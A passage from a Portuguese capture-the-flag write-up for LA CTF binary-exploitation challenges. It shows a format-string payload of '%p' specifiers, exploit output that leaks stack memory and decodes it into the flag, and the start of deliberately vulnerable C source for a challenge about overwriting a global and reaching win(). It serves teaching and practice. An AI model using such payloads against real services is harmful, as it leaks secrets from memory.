 Por que funciona?
- A _flag_ está armazenada na _stack_ em `flag[48]`.
- Usando _specifiers_ `%p`, extraímos memória adjacente da _stack_, que inclui os bytes da _flag_.
- Os valores hex vazados são convertidos em _byte strings_ (little-endian), revelando partes da _flag_.

Finalmente, temos a flag!
```
[+] Opening connection to chall.lac.tf on port 31142: Done
b'%1p%2p%3p%4p%5p%6p%7p%8p%9p%10p%11p%12p'
00007ffdecfe4240 b'@B\xfe\xec\xfd\x7f\x00\x00'
000057d01f2a34a8 b'\xa84*\x1f\xd0W\x00\x00'
75687b667463616c b'lactf{hu'
66635f327265746e b'nter2_cf'
07d38367a7830630 b'0\x06\x83\xa7g\x83\xd3\x07'
0000000000000002 b'\x02\x00\x00\x00\x00\x00\x00\x00'
64726f7773736170 b'password'
[+] Opening connection to chall.lac.tf on port 31142: Done
b'%13p%14p%15p%16p%17p%18p%19p%20p%21p%22p'
00007ffdf3d45450 b'PT\xd4\xf3\xfd\x7f\x00\x00'
000058d3348214a8 b'\xa8\x14\x824\xd3X\x00\x00'
75687b667463616c b'lactf{hu'
66635f327265746e b'nter2_cf'
007d38367a783063 b'c0xz68}\x00'
```

## pwn/state-change
Neste challenge temos uma variável global que precisa ser sobrescrita de alguma maneira. Além disso, precisamos de alguma maneira redirecionar o ponteiro de instrução para a função win(), pois no fluxo normal de execução do programa ela não é chamada.

``` chall.c
#include <stdio.h>
#include <string.h>

char buf[0x500]; // Wow so useful
int state;
char errorMsg[0x70];

void win() {
    char filebuf[64];
    strcpy(filebuf, "./flag.txt");
    FILE* flagfile = fopen("flag.txt", "r");

    /* ********** ********** */
    // Note this condition in win()
    if(state != 0xf1eeee2d) {
        puts("\ntoo ded to gib you the flag");
        exit(1);
    }
    /* ********** ********** */
    
    if (flagfile == NULL) {
        puts(errorMsg);
    } else {
        char buf[256];
        fgets(buf, 256, flagfile);
        buf[strcspn(buf, "\n")] = '\0';
        puts("Here's the flag: ");
        puts(buf);
    }
}

void vuln(){
```